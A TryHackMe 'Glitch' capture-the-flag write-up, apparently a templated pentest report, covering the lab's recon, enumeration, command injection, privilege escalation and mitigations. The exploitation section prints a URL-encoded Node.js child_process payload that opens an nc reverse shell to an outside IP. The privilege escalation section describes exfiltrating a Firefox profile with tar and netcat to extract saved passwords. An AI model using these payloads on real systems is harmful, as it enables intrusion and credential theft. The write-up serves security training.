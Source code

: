 [GLITCH](https://tryhackme.com/room/glitch)

**Date:** [23/05/2025]  
**Difficulty:** [Easy]  
**Objective:** [Exploit a vulnerable web application, extract stored credentials, escalate privileges, and gain root access on the target machine.]

---

## Table of Contents

- [1. Summary](#1-summary)
- [2. Methodology](#2-methodology)
- [3. Reconnaissance](#3-reconnaissance)
- [4. Enumeration](#4-enumeration)
- [5. Exploitation](#5-exploitation)
- [6. Privilege Escalation](#6-privilege-escalation)
- [7. Post Exploitation](#7-post-exploitation)
- [8. Flags / Proof](#8-flags--proof)
- [9. Mitigations](#9-mitigations)
- [10. Notes](#10-notes)

---

## 1. Summary

**IP/URL:** [10.10.230.208 ]  
**Service/Ports:** [80/HTTP]  
**Entry Point:** [Web token in localStorage and /api/items injection]  
**Privilege Escalation:** [Credential reuse via Firefox profile + doas misconfiguration]  
**Outcome:** [Root shell obtained, flags captured]  

---

## 2. Methodology

Following the PTES (Penetration Testing Execution Standard):
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance

## Active
```
nmap -sS -sV 10.10.230.208 
```
```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
----

## 4. Enumeration
    Web: gobuster, wfuzz

    Commands:
    ```
    wfuzz -X POST -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hc 404,400 http://10.10.162.38/api/items\?FUZZ\=1
    gobuster dir -u http://10.10.230.208 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```

    
Findings:
```
    /img                  (Status: 301) [Size: 173] [--> /img/]
    /js                   (Status: 301) [Size: 171] [--> /js/]
    /secret               (Status: 200) [Size: 724]
```
```
    ID           Response   Lines    Word       Chars       Payload                                                                          
=====================================================================

000002370:   200        0 L      2 W        25 Ch       "cmd"    

```


/secret revealed when setting a custom token cookie value

JavaScript exposed /api/items and structure of app
cmd parameter injectable


----

## 5. Exploitation

    Parameter injection in /api/items?cmd=

    Tools: Burp Suite

    Commands:
 
    POST /api/items?cmd=require("child_process").exec("rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E21%2E157%2E185%204444%20%3E%2Ftmp%2Ff") HTTP/1.1

     Reverse shell received as user

----

## 6. Privilege Escalation

    Method: 

    Stole Firefox profile via tar | nc
    Extracted passwords using firefox_decrypt.py


    Tool Used: LinPEAS

    Commands:
 
   Find / -perm -4000 2>/dev/null
   doas -u root /bin/bash


Escalated To: root

----

## 7. Post Exploitation

    User switch: user → v0id → root

    Found and read /root/flag.txt

    Firefox config showed .bash_history redirected to /dev/null (intentional hiding)

----

## 8. Flags / Proof

    User Flag: THM{user_flag_here}

    Root Flag: THM{root_flag_here}

    Other Credentials / Loot:

        Username: v0id

        Password: (extracted)

----

## 9. Mitigations

| Vulnerability              | Risk   | Suggested Mitigation                                    |
|----------------------------|--------|---------------------------------------------------------|
| Token-based access control | High   | Use proper session management and token validation      |
| Command injection via API  | High   | Sanitize and validate all user input                    |
| Firefox credential leakage | High   | Disable password saving, encrypt profiles               |
| doas misconfiguration      | High   | Restrict usage to authorized users only                 |

----

## 10. Notes

    Time spent: [e.g., 2 hours]

    Tools used: nmap, gobuster, sqlmap, linpeas, Burp Suite, etc.

    Lessons learned:
    Firefox profiles can be goldmines of credentials

    Always check for custom JS logic in CTF web apps

    doas is just as dangerous as sudo when misconfigured

    Tar + netcat = simple and powerful file exfil method
